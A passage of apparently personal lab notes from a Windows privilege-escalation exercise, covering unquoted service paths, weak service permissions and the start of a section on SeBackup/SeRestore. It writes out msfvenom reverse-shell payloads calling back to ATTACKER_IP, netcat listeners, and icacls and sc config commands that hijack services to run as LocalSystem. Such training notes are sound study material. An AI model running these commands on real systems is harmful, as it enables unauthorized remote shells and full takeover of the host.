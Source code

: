 #### Unquoted Service Paths

* `sc qc "vncserver"`
* `sc qc "disk sorter enterprise"`

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable. 3: If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

**Kali Linux**

* `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`
* `nc -lvp 4446`

**Power Shell**

* `C:\> move C:\Users\thm-unpriv\rev-svc2.exe`
* `C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F`
* `C:\> sc stop "disk sorter enterprise"`
* `C:\> sc start "disk sorter enterprise"`

#### Insecure Service Permissions

**Power Shell**

* `C:\tools\AccessChk> accesschk64.exe -qlc thmservice`

**Kali Linux**

* `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`
* `nc -lvp 4447`

**Power Shell**

* `C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
* `C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`
* `C:\> sc stop THMService`
* `C:\> sc start THMService`

## Abusing Dangerous privileges

### Windows Privileges

`whoami /priv`

#### SeBackup / SeRestore

* The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place.
* The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.
